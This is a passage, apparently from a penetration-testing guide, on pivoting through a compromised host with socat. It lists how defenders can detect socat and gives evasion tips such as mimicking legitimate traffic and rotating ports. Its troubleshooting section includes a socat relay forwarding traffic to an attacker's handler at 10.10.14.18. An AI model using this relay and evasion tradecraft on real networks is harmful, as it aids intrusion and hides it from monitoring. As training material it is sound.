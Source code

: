 ### **Network Detection**
1. **Socat creates network connections** - visible in netstat
2. **Process monitoring** can detect socat execution
3. **Traffic analysis** may reveal forwarding patterns
4. **Log correlation** between pivot and target communications

### **Mitigation Strategies**
1. **Use during maintenance windows** when possible
2. **Mimic legitimate traffic** patterns
3. **Rotate ports and timing** to avoid detection
4. **Monitor for defensive responses**

---

## **9. Troubleshooting Common Issues**

### **Connection Failures**

```bash
# Test basic connectivity
telnet 172.16.5.129 8080

# Check if Socat is listening
netstat -tlnp | grep 8080

# Verify port accessibility
nc -v 172.16.5.129 8080
```

### **Socat Process Issues**

```bash
# Check running Socat processes
ps aux | grep socat

# Kill stuck Socat processes
pkill socat

# Restart with debug output
socat -d -d TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

### **Handler Connection Problems**

```bash
# Verify handler is listening
netstat -tlnp | grep :80

# Check firewall rules
iptables -L INPUT | grep 80

# Test direct connection to handler
telnet 10.10.14.18 80
```

---